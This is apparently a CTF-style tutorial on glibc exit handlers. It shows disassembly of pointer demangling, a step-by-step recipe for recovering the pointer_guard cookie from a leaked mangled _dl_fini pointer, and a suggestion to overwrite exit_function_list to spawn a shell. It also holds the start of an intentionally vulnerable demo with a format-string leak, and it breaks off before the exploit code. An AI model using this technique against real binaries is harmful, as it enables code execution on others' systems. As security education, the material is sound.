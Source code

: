 ecx is also zero-out'ed too

```asm
   0x00007ffff7c47a38 <+312>:   mov    QWORD PTR [rax+0x10],0x0                                                                                                                         
   0x00007ffff7c47a40 <+320>:   mov    rax,rcx                                                                                                                                          
   0x00007ffff7c47a43 <+323>:   mov    ecx,r13d 
```

and the demangling begins...

```asm
   0x00007ffff7c47a46 <+326>:   ror    rax,0x11                                                                                                                                         
   0x00007ffff7c47a4a <+330>:   xor    rax,QWORD PTR fs:0x30
(...)
   0x00007ffff7c47a61 <+353>:   mov    rdi,r8                                                                                                                                           
   0x00007ffff7c47a64 <+356>:   call   rax
```

mangled_ptr is rotated right by 0x11 and xor'ed with the PTR_MANGLE cookie (aka pointer_guard) stored in the tls (fs:0x30)

which reveals that it is a call to the **_dl_fini** function!

now we know which function its calling so the question is...

can we guess the pointer_guard with only mangled and demangled_ptr ? 

why yes, of course!

here is the recipe 🧑‍🍳

1) first leak the mangled_ptr (_dl_fini) in exit_function_list and the address of _dl_fini 🍚 🧈 🍳 🍶 🍜 🧁 🍫 

2) ror the mangled_ptr with 0x11  🧂

3) xor it with _dl_fini 🔥

4) and you get the PTR_MANGLE cookie 🍪 !!!

 	> now you can mangle pointers with a simple encrypt function as in the disassembly, enjoy! 😋 

and as for the dessert, you can overwrite the exit_function_list with your very own struct to pop a shell...

ef_cxa flavor is highly recommend among the chefs because it takes a sweet argument 😉 

anyway, here's the improved ~~quaility~~ demo and the exploit:

```c
// gcc -g demo.c -o demo -no-pie
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

char buf[0x256];

int main(){
	uint64_t addr;
	uint64_t *mangled_ptr;
	int size;
	printf("%p\n", stdout);
	printf("%21$lx\n");
	printf("%p\n", system);
	puts("mangled_ptr?");
	scanf("%lx", &mangled_ptr);
	puts("writing out the data pointed by addr");
	printf("%p\n", *mangled_ptr);
	puts("addr?");
```